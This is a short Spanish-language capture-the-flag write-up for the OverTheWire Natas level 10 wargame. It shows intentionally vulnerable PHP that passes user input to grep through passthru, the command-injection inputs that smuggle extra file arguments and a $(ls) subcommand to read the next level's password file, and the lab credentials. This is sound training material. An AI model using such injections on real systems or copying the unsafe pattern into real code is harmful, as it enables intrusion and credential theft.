 # Natas 10

#### URL: http://natas10.natas.labs.overthewire.org/

#### Credenciales: natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

El nuevo codigo ahora escapa ciertos caracteres utiles para RCE:

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Una forma de lograr esto es usando un subcomando como $(ls), entonces se expande a grep -i [fichero1] [fichero2] [fichero3] [fichero4] dictionary.txt entonces probando `c $( ls /etc/natas_webpass/natas11)`, con c siendo un caracter valido que contenga la contraseña, conseguimos las credenciales.

![2025-03-19-221036_883x650_scrot](https://github.com/user-attachments/assets/de2e7e0d-4e02-4ab9-baa2-d6d2465db089)

`natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`

PD: En realidad simplemente `c /etc/natas_webpass/natas11` funciona igual :)



